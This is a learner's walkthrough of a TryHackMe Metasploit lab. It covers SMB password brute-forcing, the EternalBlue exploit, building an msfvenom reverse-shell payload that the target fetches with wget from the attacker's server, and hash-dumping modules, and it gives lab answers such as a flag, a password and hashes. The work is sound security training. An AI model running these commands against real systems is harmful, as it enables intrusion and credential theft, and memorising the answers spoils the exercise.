 # Metasploit: Introduction

## Introduction

This room walks you through the process of finding a vulnerability in a system, and exploiting that vulnerability.

## Process

### Task 2: Scanning

This task showed us a few ways to scan systems, including Metasploit modules.

#### Task 2 Questions:

**How many ports are open on the target system?**\
> 5

Scanning the target with nmap showed 5 open ports.

**Using the relevant scanner, what NetBIOS name can you see?**\
> ACME IT SUPPORT

**What is running on port 8000?**
> webfs/1.21

**What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.**\
> leo1234

Searching for smb_login and selecting auxiliary/scanner/smb/smb_login, the ```info``` command shows we need to set SMBUser to "penny", RHOSTS to the target IP, and the PASS_FILE to the password file specified in the first task.\
After setting those with ```set SMBUser penny```, ```set RHOSTS [target IP]```, and ```set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt```, running the module gives us the password ```leo1234```.

### Task 3: The Metasploit Database

This task explained how to use the Metasploit Database, first by starting the PostgreSQL database with the command ```systemctl start postgresql```, then ```msfdb init```.\
You can then check if the database is up by launching ```msfconsole``` and runnning ```db_status```.\
You can also list workspaces using ```workspace```, add workspaces using ```workspace -a NAME```, and delete workspaces using ```workspace -d NAME```.

### Task 4: Vulnerability Scanning

#### Task 4 Questions:
**Who wrote the module that allows us to check SMTP servers for open relay?**\
> Campbell Murray

Searching for smtp relay gives us the scanner/smtp/smtp_relay module. We can select it by running ```use 0```, and then use the ```info``` command to see the relevant information.

### Task 5: Exploitation

**Exploit one of the critical vulnerabilities on the target VM**\
The target machine is vulnerable to the exploit shown in the task images (ms17_010_eternalblue).\
I first open the ```msfconsole```, and search for eternalblue. The first result was the one we need (windows/smb/ms17/010/eternalblue), so I run ```use 0```.\
After running ```info```, I can see that RHOSTS has to be set to the target IP, so I do so with ```set RHOSTS [target IP]```.
I type ```run```, and a meterpreter session is eventually opened.

#### Task 5 Questions:

**What is the content of the flag.txt file?**\
> THM-5455554845

Navigate through commonly used folders, I find the flag file in the user's documents folder (C:\Users\Jon\Documents), showing the contents using ```edit flag.txt```. I can then push the meterpreter session to the background using ```CTRL-Z```.

**What is the NTLM hash of the password of the user "pirate"?**\
> 8ce9a3ebd1647fcc5e04025019f4b875

Now that the meterpreter session is in the background, we can leave the eternalblue module and searh for hashdump and windows: ```search hashdump windows``` (because the target machine is a windows machine) to find post/windows/gather/hashdump.\
Using that module, setting SESSION to 1 (my meterpreter session ID, checked by running the ```sessions``` command), and running prints the results we need, where the second hash on the pirate line is the one we are looking for.

### Task 6: Msfvenom

This task walks us through using msfvenom to create a reverse payload, and using that to open a meterpreter session and dump hashes of users on the system.

#### Task 6 Questions:
**Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).**\
We first create the meterpreter payload using ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf```. The example uses port 7777, but I found that port was being used so I used port 7776. I checked this by using ```nmap [AttackBox IP]```.

**Transfer it to the target machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine).**\
This is pretty straight forward, just note that the example wget command is searching for a file named shell.elf, whereas the one we created was named rev_shell.elf. I also made the file executable after transferring it by running ```chmod +x rev_shell.elf```.

**Get a meterpreter session on the target machine.**\
We now have to use Multi Handler to receive the connection: we reopen ```msfconsole```, run ```use exploit/multi/handler```, and set our payload using ```set payload linux/x86/meterpreter/reverse_tcp```. We also set our lhost and lport values to our AttackBox IP and port 7776 respectively.\
I tried to run the file from the target machine directly but found when I switched back to the AttackBox the connection would close, so from the AttackBox I then ssh into the target machine using the credentials provided, became super user with ```sudo su```, and ran the file, establishing the connection.
I then left the meterpreter session running in the background by pressing ```CTRL-Z```.

**Use a post exploitation module to dump hashes of other users on the system.**\
> $6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

Now that we have the meterpreter session running, we can leave the Multi Handler module by running ```back```, and then select the post exploitation module we want: ```use post/linux/gather/hashdump```.\
I checked the ID of the meterpreter session we opened by typing ```sessions```, and then set the session variable using ```set SESSION 1``` (the ID of my meterpreter session was 1).\
Running the post exploitation module by typing ```run``` gave the hashes we wanted!



## Conclusion and Learning Outcomes
I really enjoyed this room, since it was a very hands on demonstration of a full exploitation and post exploitation of a target system. I found this very engaging and it was very nice to get to see the whole process of using Metasploit.
